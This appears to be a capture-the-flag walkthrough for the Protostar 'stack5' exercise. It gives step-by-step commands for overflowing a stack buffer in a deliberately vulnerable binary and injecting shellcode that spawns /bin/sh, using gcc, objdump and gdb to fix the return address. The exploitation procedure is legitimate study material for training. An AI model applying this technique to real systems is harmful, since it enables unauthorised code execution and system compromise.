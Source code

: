 # protostar-stack-5


In this challenge, the execution of arbitrary code is required. Such code, written in machine language with hexadecimal encoding is injected via input.  
A common choice is to obtain the execution of a shell.  A machine code that executes a shell is called a shellcode.

The shellcode we want to execute is the following:

execve("/bin/sh");
exit(0);


The shellcode.s file contains the shellcode in assembly. Compile shellcode.s to obtain the shellcode.o object file with the following command: gcc –m32 –c shellcode.s –o shellcode.o

Disassemble shellcode.o to get hex-encoded instructions: objdump --disassemble shellcode.o 

payload.py is used to generate the input to pass to stack5.

1. Transfer the payload.py and shellcode.s to the virtual machine
2. Print the output of the script to a file with the following command: python stack5-payload.py > payload
3. Run gdb -q /opt/protostar/bin/stack5
  ⁃ If present, we delete global variables LINES and COLUMNS:
      - unset env LINES
      - unset env COLUMNS
  ⁃ write: disassemble main
  ⁃ Set the breakpoint just before the leave instruction: b * 'istruction_leave'
  ⁃ r < /tmp/payload
  ⁃ Print the contents of the pointer esp using the command x/a $esp
  ⁃ Edit the python script by inserting the obtained value (es. 0xbffffca0) and run it again to get back the correct payload with the right address
      - nano stack5-payload.py
      - edit script
  ⁃ exit from gbd: q
4. Execute python stack5-payload.py > payload
5. Write: (cat /tmp/payload; cat) | /opt/protostar/bin/stack5                          (*)
6. F I N I S H




(*)We use this command because otherwise the new shell would be closed immediately because it would find an EOF due to the fact that all the contents of STDIN have been consumed by the gets.
